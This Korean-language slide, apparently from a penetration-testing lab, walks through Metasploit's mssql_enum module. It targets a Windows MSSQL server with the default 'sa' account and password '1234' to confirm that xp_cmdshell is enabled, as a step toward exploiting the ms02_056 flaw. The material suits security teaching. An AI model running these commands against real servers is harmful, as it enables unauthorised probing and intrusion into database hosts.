

# ms02_056_hello.rb 모듈을 이용한 침투
보조기능인 mssql_enum.rb 모듈을 이용하여 xp_cmdshell 사용 여부를 확인
use auxiliary/admin/mssql/mssql_enum
set rhost 윈도우ip
set rport 1433
set username sa		//mssql 기본 이름
set password 1234
set thread 256
run

실행 결과: xp_cmdshell is Enabled (해당 기능을 사용중)
8